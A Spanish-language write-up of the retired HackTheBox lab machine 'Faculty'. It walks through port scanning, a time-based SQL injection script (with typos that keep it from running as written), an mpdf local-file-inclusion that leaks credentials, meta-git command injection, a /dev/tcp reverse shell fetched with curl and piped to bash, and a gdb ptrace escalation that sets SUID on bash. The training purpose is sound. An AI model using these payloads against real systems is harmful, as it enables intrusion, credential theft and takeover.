




------------------


Faculty es una maquina de dificultad que se encuentra retirada en plataforma de HackThebox, en la cual podemos acceder al panel de administración por una inyección típica de SQLI pero antes probamos scriptear en Python para explotar un SQLI time based con el cual encontramos un hash en MD5 pero no logramos crackear, luego explotamos un LFI(Local File Inclusion) atreves de mpdf, para hacer movimiento lateral para acceder a otro usuario explotamos Meta-git y para escalar a root nos aprovechamos de gdb que tiene asignado la capabilitie cap_sys_ptrace+ep

------------------------------------
# Reconocimiento
Comienzo con un nmap para hacer saber que puertos se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.169 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 11:21 -03
Initiating SYN Stealth Scan at 11:21
Scanning 10.10.11.169 [65535 ports]
Discovered open port 22/tcp on 10.10.11.169
Discovered open port 80/tcp on 10.10.11.169
Completed SYN Stealth Scan at 11:21, 15.74s elapsed (65535 total ports)
Nmap scan report for 10.10.11.169
Host is up, received user-set (0.19s latency).
Scanned at 2024-09-17 11:21:22 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
- *-p-*: escanear todo el rango total de puertos(65535)
- *--open*:Reportar puertos abiertos, ya que los puertos pueden estar cerrado o filtrados.
- *-sS*:TCP SYN port scan, este es un modo para ir de forma rápido agresivo a la vez que sigiloso
- *--min-rate 5000*:Le indicamos que queremos que nos tramite paquetes nomas lento que 5000 paquete por segundo
- *-vvv*: Triple vervose para que puerto que nos detecte abierto nos lo vaya reportando sobre la marcha
- *-n*: Para no aplicar resolución DNS
- *-Pn*: Omitir la prueba de ping y simplemente escanea todos los hosts de destino proporcionados
- *-oG*:Para que nos cree un archivo grepeable, para poder filtrar por lo que nos interese mediante el empleo de expresiones regulares

Veo que tiene el puerto 22, 80 por lo tanto voy a hacer un escaneo mas exhaustivo sobre estos puertos
```bash
❯ nmap -p22,80 -sCV 10.10.11.169 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 11:22 -03
Nmap scan report for 10.10.11.169
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- *-p22,80*: Le indicamos que queremos escanear los puerto 22,80
- *-sCV*: Le indicamos con que queremos lanzar un script básicos de reconocimiento y, detectar la versión y servicios que corren para los puertos 20,80
- *-oN*: Exportarlo en forma normal tal y como nos lo reporta Nmap

Veo que por el puerto 22 esta `SSH` que nos reporta el condéname(8.2p1 Ubuntu 4ubuntu0.5) de Ubuntu y gracias a esto puedo descubrir que estamos frente a un `Ubuntu focal`, mas de eso por aquí no puedo hacer nada, en el puerto 80 veo que hay una pagina web que nos redirige a `faculty.htb` por lo tanto a esto lo introduzco en el `/etc/hosts` porque de primera nuestra maquina no sabe lo que es `http://faculty.htb/` 


Una vez echo esto veré con `whateb` las tecnologías que corren por detrás, lo primero que veo es que me redirige a `login.php`  pero no veo nada mas que me llame la atención
```bash
❯ whatweb http://faculty.htb
http://faculty.htb [302 Found] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.169], JQuery, RedirectLocation[login.php], Script[text/javascript], Title[School Faculty Scheduling System], nginx[1.18.0]
http://faculty.htb/login.php [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.169], JQuery, Script[text/javascript], Title[School Faculty Scheduling System], nginx[1.18.0]
```
Por lo tanto voy a ver en la web que es lo que contiene, existe un login que nos pide un ID


Lo primero que intente una inyección SQL,con la cual efectivamente se acontece una inyección SQL


Veo que me loguea como John C pero no podemos hacer mucho con este usuario


Por lo cual veré si existe algún login para administrador, entonces con `gobuster` vere si me descubre alguna ruta adicional, veo que me descubre `/admin`
```bash
❯ gobuster dir -u http://faculty.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://faculty.htb/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 178] [--> http://faculty.htb/admin/]
```
Al entrar en `/admin` veo que me arrastra la sesión como John C, pero la idea es entrar como administrador por lo cual me deslogueo e intento la inyección SQL para ver si me logueo como usuario administrador 


Y veo que efectivamente esta vez me loguea como Administrador


#### Fail SQLI
Como veo que se acontece la SQLI y es basada en tiempo, ya que no recibo ningun tipo de error o código de estado al introducir diferentes query erróneas lo que si me llegue a ver es que en ciertas query me mostraba la ruta `/var/www/scheduling/admin/admin_class.php`, pero cuando lo hago con tiempo con una query valida si me lo interpreta por lo tanto lo voy hacer un pequeño script 

```python
#!/usr/bin/python3

from pwn import *
import rquests, time, sys, pdb, string, signal

def def_handler(sig, frame):
	print("\n\n [!]Saliendo...\n")
	sys.exit(1)
# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

#Variables Globales
characters = string.ascci_lowercase + string.digits + "-_"
login_url = "http://faculty.htb/admin/ajax.php?action=login"

def sqli():
	# Variable
	password = ""
	#barra de progreso
	p1 = log.progress("Fuerza Bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Admin Password [DB:scheduling_db][Tabla:users][Columns: password] (admin)")
	#Longitud
	for position in range(1, 35):
		#Caracteres
		for character in characters:
			#Data tramitada por post
			post_data ={	
			#Query sleep
			'username': "admin'and if(substr((select password from users where username='admin'),%d,1)='%s',sleep(3),1)-- -" % (position,character),
			'password':'admin'
			}
			#Barra de progreso que se actualiza el valor de post_data
			p1.status(post_data['username'])
				
			#Para saber que tarda 3 segundos o el tiempo que indiquemos hacemos lo siguiente
			time_start = time.time() #El tiempo de inicio actual
				
			#Data del cuerpo de la request que queremos enviar
			r = requests.post(login_url, data=post_data)
				
			time_end = time.time() #El tiempo de finalizacion actual
			#Le indicamos si es que time_end menos time_start es mayor que a 3 y si hay 3 segundos de diferencia entonces ese es el caracter por lo tanto a database se le agrega un character entonces con un break salta a la siguiente posicion
			if time_end - time_start > 3:
				password += character
				p2.status(password)
				break
	
#Flujo inicial del progama
if __name__ == '__main__':
	
	sqli()
```

Al llegar a la tabla users veo una columna password por lo tanto la dumpeo la password del usuario administrador


veo que el hash esta en MD5, pero al intentar crackear no lo logre, y no encontré nada mas interesante.


### MDPF-User
Por lo tanto veré las funcionalidades del panel de administrador, veo que tengo la capacidad para crear un PDF y al crearlo me abre una nueva ventana para visualizar el contendio


Veo que me crea un PDF con lo que veo en el panel en la parte de course list y en la url veo [mpdf](https://es.stackoverflow.com/tags/mpdf/info)


 
Veo que existe un exploit publico para mpdf con el cual se acontece un `LFI` 



Al interceptar la creación del pdf veo que una cadena en base64 


Por lo que lo paso al decoder y decodeo pasándolo primero a Base64, despues veo que esta URL encodeada por lo que lo decodeo en URL  y de nuevo obtengo obtengo otra cadena URL ecodeada por lo que lo decodeo nuevamente y obtengo una cadena como si fuera HTML 


Es algo similar a lo que le esta pasando como payload en el exploit por lo que esto lo podria hacer manual pasandole mi cadena ponerlo en URL encode, nuevamente en URL encode y luego en Base64


A esto lo voy a hacer con [CyberChef](https://gchq.github.io/CyberChef/), por lo tanto cambiamos fname por la ruta del archivo que queremos ver en este caso el `/etc/passwd`, ahora veré que hace esto entonces intercepto la solicitud y le paso mi cadena en base64 


Me crea el pdf pero de primera no veo nada, pero veo que puede existir archivos adjuntos


Al ver lo que hay adjunto pone passwd, al hacerle click me descargar el passwd


Veo `/etc/passwd` de la maquina victima por lo que estoy pudiendo incluir archivos locales de la maquina victima atreves de la explotación del mpdf 


Veo que en la maquina victima existen dos usuarios, gbyolo y developer 


Recordé que al intentar acontecer el SQLi me mostro la ruta `/var/www/scheduling/admin/admin_class.php`por lo que intentare incluir este archivo de la maquina, vuelvo hacer el mismo procedemiento


Veo que si me lo hace por lo que veré su contenido 


veo que esta incluyendo un archivo que es `db_connect.php` que me hace pensar que puede llegar a estar en la misma ruta 


Efectivamente esta en la misma ruta


Al ver su contenido veo credenciales, con las cuales intentare conectarme por `SSH` y ver si contraseña es de algún usuario 


No es la contraseña de developer pero si la de gbyolo

```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```
Al ver la manera de escalar privilegios veo que con sudo puedo ejecutar [meta-git](https://www.npmjs.com/package/meta-git?activeTab=readme) como el usuario developer, veo que es parecido al comando git, entonces buscando la manera de abusar de meta-git, encuentre una vulnerabilidad asociada el cual esta contemplada en un reporte de [hackerone](https://hackerone.com/reports/728040) el cual nos habla de `RCE` en el cual se explica ejecutar meta-git clone e introducción `ssss||"command"` podemos colar un comando, por lo que voy a intentar y ver si se acontece el `RCE`
Al intentar colar el comando whoami e id veo que si lo hace 





Por lo que probare si también puedo enviarme un ping a mi maquina, me pongo en escucha por la interfaz `tun0` con `tcpdump` y veo que si recibo el ping 


Al intentar enviarme una revershell veo que no me funciona pero si creo un  archivo en este caso `index.html` con el contenido `bash -i >& /dev/tcp/10.10.16.2/443 0>&1`  


Y me monto un servidor con Python para ofrecer este recurso que creamos, por lo tanto me pongo en escucha y hago un curl a mi servidor y al output lo interpreto con bash, obtengo la revershell


Por lo que ahora ya puedo leer la flag del usuario

```bash
developer@faculty:~$ cat user.txt 
***********************930056
```

## Root
Ahora intentar escalar a root, veo que tengo asignado el grupo debug, por lo tanto buscare desde la raiz por archivos cuyo grupo sea debug
```bash
developer@faculty:~$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
developer@faculty:~$ find / -group debug 2>/dev/null
/usr/bin/gdb
developer@faculty:~$ ls -l /usr/bin/gdb
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb
developer@faculty:~$ getcap /usr/bin/gdb
/usr/bin/gdb = cap_sys_ptrace+ep
```
veo que puedo ejecutar gdb y tiene asignada la capabilitie [cap_sys_ptrace+ep](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc) , al leer lo que puedo hacer con esta capabilitie veo que puedo attachear un proceso y hacer una llamada con system para ejecutar comandos por lo que primero veré los procesos que se están ejecutando como root 
```bash
ps -faux | grep "^root" | less -s
root         695  0.0  0.9  26896 18004 ?        Ss   16:14   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-tiggers
```
Veo este proceso interesante donde ejecuta con python3 networkd-dispatcher el cual esta importando la libreria os



Por lo tanto probare si esto funciona ejecutando gdb attacheando el proceso que seria el 695
```bash
developer@faculty:~$ gdb -p 695
(gdb) call (void)system("whoami")
[Detaching after vfork from child process 8110]
(gdb) call (void)system("whoami > /tmp/test")
[Detaching after vfork from child process 8119]
```
Veo que si me ejecuta el comando y lo redirijo a un archivo en `/tmp` llamado test


Por lo tanto ahora cambiara los permisos de la bash a SUID

```bash
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 8182]

```


Ahora solo ejecuto bash -p  y ya puedo ver la flag de root
```bash
developer@faculty:~$ bash -p
bash-5.0# cd /root
bash-5.0# cat root.txt 
*******************d80be82af
```
